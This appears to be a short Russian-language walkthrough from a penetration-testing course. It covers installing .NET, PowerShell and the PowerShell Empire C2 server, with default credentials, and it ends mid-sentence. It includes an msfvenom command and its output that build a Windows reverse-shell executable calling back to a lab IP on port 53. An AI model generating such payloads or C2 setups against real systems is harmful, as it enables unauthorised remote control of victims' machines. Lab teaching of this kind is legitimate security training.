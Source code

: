    Если прошло нормально - повторить обновление и если прошло нормально, ребутнуть виртуалку

2. Поставить зависимости

    Dotnet SDK:
    ```
    curl -SL -o dotnet-sdk-6.0.408-linux-arm64.tar.gz https://download.visualstudio.microsoft.com/download/pr/9c4bff1b-9f35-44a3-95a3-d17224810b08/0f7426d4ce82cd5b55ed1b6f07877d5e/dotnet-sdk-6.0.408-linux-arm64.tar.gz    
    sudo mkdir -p /usr/share/dotnet
    sudo tar -zxf dotnet-sdk-6.0.408-linux-arm64.tar.gz -C /usr/share/dotnet
    sudo ln -s /usr/share/dotnet/dotnet /usr/bin/dotnet
    ```

    PowerShell:
    ```
    curl -L -o /tmp/powershell.tar.gz https://github.com/PowerShell/PowerShell/releases/download/v7.3.4/powershell-7.3.4-linux-arm64.tar.gz
    sudo mkdir -p /opt/microsoft/powershell/7
    sudo tar zxf /tmp/powershell.tar.gz -C /opt/microsoft/powershell/7
    sudo chmod +x /opt/microsoft/powershell/7/pwsh
    sudo ln -s /opt/microsoft/powershell/7/pwsh /usr/bin/pwsh
    ```

3. Поставить PowerShell Empire

    ```
    sudo apt install powershell-empire
    ```

    Запуск сервера:
    ```
    sudo powershell-empire server
    ```

Логин и пароль для входа в веб интерфейсе:  
username: empireadmin  
password: password123

## Модуль 31. Практическая работа 31.6

Если при попытке сгенерировать файл реверс шелла возникает такая ошибка:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.104.91 LPORT=53 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

Это происходит, из-за отсутствия arm исходников и для работы надо дополнительно указать нужную x64 архитектуру:

